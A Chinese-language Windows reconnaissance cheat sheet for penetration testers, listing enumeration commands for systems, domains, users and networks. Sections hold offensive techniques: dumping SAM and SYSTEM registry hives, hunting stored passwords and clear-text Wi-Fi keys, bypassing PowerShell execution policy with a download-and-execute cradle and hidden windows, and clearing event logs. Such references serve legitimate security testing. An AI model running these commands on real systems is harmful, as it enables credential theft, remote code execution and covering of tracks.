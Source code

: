 信息收集 - Windows
========================================

基本命令
----------------------------------------
- 查询所有计算机名称 ``dsquery computer``
- 查看配置 ``systeminfo``
- 查看版本 ``ver``
- 进程信息 ``tasklist /svc``
- 查看所有环境变量 ``set``
- 查看计划任务 ``schtasks /QUERY /fo LIST /v``
- 查看安装驱动 ``DRIVERQUERY``
- 查看操作系统架构 ``wmic os get osarchitecture``
- 查看逻辑盘 ``wmic logicaldisk get caption``
- 查看安装的软件 ``wmic product get name,version``
- 查看Powershell版本：``REG QUERY "HKLM\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine" /v PowerShellVersion``

系统服务管理-sc
----------------------------------------
- start
	+ 用于启动、停止或暂停服务
- stop
	+ 用于停止服务
- query
	+ 用于查询服务的状态
	+ ``Sc [ServerName] query [ServiceName] [type= {driver | service | all}] [type= {own | share | interact | kernel | filesys | rec | adapt}] [state={active | inactive | all}] [bufsize= BufferSize] [ri= ResumeIndex] [group= GroupName]``
		::
		
			ServerName：远程服务器名称须使用 UNC 格式（"\myserver"）。
			ServiceName：指定服务名。
			type= {driver | service | all}
			type= {own | share | interact | kernel | filesys | rec | adapt}：指定要枚举的服务类型或驱动程序类型。
			state= {active | inactive | all}:指定要枚举的服务的已开始状态。
- config
	+ 用于更改服务的配置（永久）
	+ ``sc config stisvc start= demand``
- create
	+ 用于创建新服务
	+ ``sc create TestService binPath= "C:\test.exe"``
- delete
	+ 用于删除指定服务
	+ ``sc delete TestService``

域信息
----------------------------------------
- 获取当前组的计算机名 ``net view``
- 查看所有域 ``net view /domain``
- 查看域中的用户名 ``dsquery user``
- 查询域组名称 ``net group /domain``
- 查询域管理员 ``net group "Domain Admins" /domain``
- 查看域控制器 ``net group "Domain controllers"``
- 查询Kerberos票证缓存 ``klist``

用户信息
----------------------------------------
- 查看用户 ``net user`` / ``whoami`` / ``whoami /all`` / ``echo %USERNAME% || whoami``
- 查看用户信息: ``net user <administrator>``
- 用户特权信息 ``whoami /priv``
- 查看当前权限 ``net localgroup administrators``
- 查看在线用户 ``qwinsta`` / ``query user`` / ``quser``
- 查看当前计算机名，全名，用户名，系统版本，工作 站域，登陆域 ``net config Workstation``

网络信息
----------------------------------------
- 域控信息
	+ ``nltest /dclist:xx``
	+ ``Get-NetDomain``
	+ ``Get-NetDomainController``
- 网卡信息 ``ipconfig``
- ARP表 ``arp -a``
- 路由表 ``route print``
- 监听的端口 ``netstat -ano``
- 查看netbios：``nbtscan 192.168.1.17``
- 防火墙状态及规则
	+ ``netsh firewall show config``
	+ ``netsh firewall show state``
- hosts文件

密码信息
----------------------------------------
+ 当前系统凭据
	- ``cmdkey /l``
+ REG导出SAM数据
	::
		
		reg save HKLM\SAM sam.hiv
		reg save HKLM\SYSTEM system.hiv
		reg save HKLM\SECURITY security.hiv
+ 系统文件查找
	- ``cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt``
	- ``findstr /si password *.xml *.ini *.txt *.config 2>nul >> results.txt``
	- ``findstr /spin "password" *.*``
+ 文件名查找
	- ``dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*``
	- ``where /R C:\ user.txt``
	- ``where /R C:\ *.ini``
+ 注册表搜索密码
	::
	
		REG QUERY HKLM /F "password" /t REG_SZ /S /K
		REG QUERY HKCU /F "password" /t REG_SZ /S /K

		reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
		reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
		reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters
		reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials
		reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
		reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

		reg query HKLM /f password /t REG_SZ /s
		reg query HKCU /f password /t REG_SZ /s
+ unattend.xml
	::
	
		C:\unattend.xml
		C:\Windows\Panther\Unattend.xml
		C:\Windows\Panther\Unattend\Unattend.xml
		C:\Windows\system32\sysprep.inf
		C:\Windows\system32\sysprep\sysprep.xml
+ wifi密码
	- Find AP SSID: ``netsh wlan show profile``
	- Get Cleartext Pass: ``netsh wlan show profile <SSID> key=clear``
	- ``cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on``

其他
----------------------------------------
+ wmic
	- 提供了从命令行接口和批命令脚本执行系统管理的支持
	- 查看补丁安装情况: ``wmic qfe get Caption,Description,HotFixID,InstalledOn``
	- 获取帮助
		+ ``wmic /?``
		+ 查看nic命令帮助：``wmic nic /?``
		+ 信息筛选：``wmic nic where NetConnectionStatus=2 get Name,MACAddress,NetConnectionStatus``
	- 查看杀软：``WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntivirusProduct Get displayName``
	- 查看启动项：``wmic startup get caption,command``
	- 进程管理
		+ 列出进程的核心信息：``wmic process list brief``
		+ 新建进程：``wmic process call create notepad``
		+ 结束进程
			- ``wmic process \[handle/PID\] delete``
			- ``wmic process \[handle/PID\] call terminate``
			- ``wmic process where "name='svchost.exe' and ExecutablePath<>'C:\\\\WINDOWS\\\\system32\\\\svchost.exe'" call Terminate``
			- ``wmic process where "name='svchost.exe' and ExecutablePath='C:\\\\WINDOWS\\\\svchost.exe'" call Terminate``
	- BIOS管理
		+ 查看bios版本型号：``wmic bios get name,SMBIOSBIOSVersion,manufacturer``
	- 计算机系统管理
		+ 查看硬件，操作系统信息：``wmic computersystem get Name,workgroup,NumberOfProcessors,manufacturer,Model``
		+ 查看系统启动选项boot.ini的内容：``wmic computersystem get SystemStartupOptions``
		+ 更改计算机名abc为123：``wmic computersystem where “name=‘abc’” call rename 123``
		+ 改工作组google为MyGroup：``wmic computersystem where “name=‘google’” call joindomainorworkgroup “”,"",“MyGroup”,1``
	- CPU 管理
		+ 查看cpu型号：``wmic cpu get name``
	- 文件管理
		+ 查找c盘下windows目录(不包括子目录)下的system.ini文件：``wmic datafile where "drive='c:' and path='\\windows\\' and FileName='system' and Extension='ini'" get Name``
		+ 删除e盘下文件大小大于10M的.cmd文件：``wmic datafile where "drive='e:' and Extension='cmd' and FileSize>'10000000'" call delete``
		+ 复制e盘下test目录(不包括子目录)下的cc.cmd文件到e:\,并改名为aa.bat：``wmic datafile where "drive='e:' and path='\\test\\' and FileName='cc' and Extension='cmd'" call copy "e:\aa.bat"``
		+ 改名c:\hello.txt为c:\test.txt：``wmic datafile "c:\\hello.txt" call rename c:\test.txt``
	- 监视器管理
		+ 获取屏幕像素：``wmic DESKTOPMONITOR where Status='ok' get ScreenHeight,ScreenWidth``
		+ 获取磁盘型号大小：``wmic DISKDRIVE get Caption,size,InterfaceType``
	- 系统环境设置管理
		+ 获取temp环境变量：``wmic ENVIRONMENT where "name='temp'" get UserName,VariableValue``
		+ 更改path环境变量值,新增e:\tools：``wmic ENVIRONMENT where "name='Path' and username='<SYSTEM>'" set VariableValue="%path%;e:\tools"``
		+ 新增系统环境变量home,值为%HOMEDRIVE%%HOMEPATH%：``wmic ENVIRONMENT create name="home",username="administrator",VariableValue="%HOMEDRIVE%%HOMEPATH%"``
		+ 删除home环境变量：``wmic ENVIRONMENT where "name='home'" delete``
	- 文件目录系统项目管理
		+ 查找c盘下名为windows的目录（不包含子目录）：``wmic FSDIR where "drive='c:' and path='\\windows\\'" list``
		+ 删除e:\test目录下除过目录abc的所有目录：``wmic FSDIR where "drive='e:' and path='\\test\\' and filename<>'abc'" call delete``
		+ 删除c:\good文件夹：``wmic fsdir "c:\\good" call delete``
		+ 重命名c:\good文件夹为abb：``wmic fsdir "c:\\good" rename "c:\\abb"``
	- 本地储存设备管理
		+ 获取硬盘系统格式、总大小、可用空间等：``wmic LOGICALDISK get name,Description,filesystem,size,freespace``
	- 网络界面控制器 (NIC) 管理
		+ 获取已连接网卡的名字、速率：``wmic NIC where NetEnabled=true get Name, Speed``
		+ 获取已IP地址网卡的index、caption：``wmic nicconfig where IPEnabled="true" get Index, Caption``
		+ 设置index =1的网卡，静态IP地址：``wmic nicconfig where Index=1 call EnableStatic ("1.2.3.4"),("255.255.255.0")``
		+ 设置index =1的网卡，采用DHCP方式获取IP地址：``wmic nicconfig where Index=1 call EnableDHCP``
	- 操作系统管理
		+ 设置系统时间：``wmic os where(primary=1) call setdatetime 20070731144642.555555+480``
		+ 更改当前页面文件(pagefile.sys)初始大小和最大值：``wmic PAGEFILESET set InitialSize="512",MaximumSize="512"``
		+ 页面文件设置到d:\下,执行下面两条命令：``wmic pagefileset create name='d:\pagefile.sys',initialsize=512,maximumsize=1024``,``wmic pagefileset where "name='c:\\pagefile.sys'" delete``
	- 安装包任务管理
		+ 卸载.msi安装包：``wmic PRODUCT where "name='Microsoft .NET Framework 1.1' and Version='1.1.4322'" call Uninstall``
		+ 修复.msi安装包：``wmic PRODUCT where "name='Microsoft .NET Framework 1.1' and Version='1.1.4322'" call Reinstall``
	- 服务程序管理
		+ 查看服务列表：``wmic service list brief``
		+ 运行spooler服务：``wmic SERVICE where name="Spooler" call startservice``
		+ 停止spooler服务：``wmic SERVICE where name="Spooler" call stopservice``
		+ 暂停spooler服务：``wmic SERVICE where name="Spooler" call PauseService``
		+ 更改spooler服务启动类型[auto|Disabled|Manual] 释[自动|禁用|手动]：``wmic SERVICE where name="Spooler" set StartMode="auto"``
		+ 删除服务：``wmic SERVICE where name="test123" call delete``
	- 共享资源管理
		+ 删除共享：``wmic SHARE where name="e$" call delete``
		+ 添加共享：``WMIC SHARE CALL Create "","test","3","TestShareName","","c:\test",0``
	- 声音设备管理
		+ ``wmic SOUNDDEV list``
	- 用户登录到计算机系统时自动运行命令的管理
		+ 查看msconfig中的启动选项：``wmic STARTUP list``
		+ 基本服务的系统驱动程序管理：``wmic SYSDRIVER list``
	- 用户帐户管理
		+ 更改用户administrator全名为admin：``wmic USERACCOUNT where name="Administrator" set FullName="admin"``
		+ 更改用户名admin为admin00：``wmic useraccount where "name='admin'" call Rename admin00``
+ PowerShell
	- 简介
		+ 一个PowerShell脚本其实就是一个简单的文本文件，其扩展名为".ps1"。PowerShell脚本文件中包含一系列命令，每个命令为独立一行。
		+ 执行策略：为防止恶意脚本，默认情况下策略为 **不能执行** 。
		+ 使用 ``get-executionPolicy`` 获取当前执行策略。
			::
			
				Restricted：脚本不能运行（默认设置）
				RemoteSigned：在本地创建脚本可以运行，但从网上下载的不能（拥有数字证书签名除外）
				AllSigned：仅当脚本受信任的发布者签名时才能运行
				Unrestricted：允许所有脚本运行
				
				设置策略：set-ExecutionPolicy <policy name>
		+ 管道：``get-process p* | stop-process``
	- 绕过执行策略
		+ 管道：``Type helloword.ps1 |powershell.exe -NoP -``
		+ 网络下载：``powershell -nop -c "iex(New-Object Net.WebClient).DowndloadString('url')"``
		+ bypass方式：``powershell.exe -ExecutionPolicy bypass -File helloworld.ps1``
		+ 加密方式：即encodedCommand方式。
		+ 隐藏执行：``PowerShell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -File xxx.ps1``
	- 查看版本：``get-host``,``$PSVersionTable.PSVERSION``
	- 查看支持命令：``get-command``
		+ 查看命令帮助：``Get-Help Enter-PSSession``
	- 获取所有进程：``get-process``
	- -command 命令参数
		+ 此方法不需要一个交互式窗口，它适用于简单脚本执行，对于复杂脚本会发生解析错误。
		+ ``PowerShell -command "Write-Host 'you are good.'"``
	- -encodedCommand命令参数
		+ 此方法的输入内容是Unicode/base64 encod字符串，使用以下方式编码
			::
			
				$command = 'dir "c:\program files" '
				$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
				$encodedCommand = [Convert]::ToBase64String($bytes)
				$encodedCommand即为最终的字符串。
		+ ``PowerShell -encodedCommand ZABpAHIAIAAiAGMAOgBcAHAAcgBvAGcAcgBhAG0AIABmAGkAbABlAHMAIgAgAA==``
	- 运行远程命令
		+ WS-Management协议:为计算机设备远程交换管理数据提供了一个公开的标准，在Windows上，微软通过WinRM实现。
		+ 检查WinRM服务：``Get-Service WinRM``
		+ 启动并配置系统接收远程命令：``Enable-PSRemoting –Force``
			::
			
				如果你的计算机已经加入了域，那么上面的配置就可以了。
				对于没有加入域的计算机还需要进行信任设置，然后重启 WinRM 服务：
				Set-Item wsman:\localhost\client\trustedhosts *
				Restart-Service WinRM
		+ 测试远程命令：``Test-WsMan xxx.xxx.xxx.xxx``
		+ 创建远程连接session：``Enter-PSSession -ComputerName my-svr -Credential ****(用户名)***``
		+ 远程执行单个命令：``Invoke-Command -ComputerName cd-lsr-svr -ScriptBlock { Get-Service WinRM } -credential ****(用户名)***``
+ 日志与事件信息
	- ``wevtutil``
		+ 显示系统日志配信信息：``wevtutil gl System /f:xml``
		+ 显示系统日志状态：``wevtutil gli System``
		+ 删除日志：``wevtutil cl system/application``
		+ 显示应用程序日志三个最新事件：``wevtutil qe Application /c:3 /rd:true /f:text``
		+ 导出系统日志：``wevtutil epl System C:\backup\system0506.evtx``
+ 注册表信息
	- ``reg``
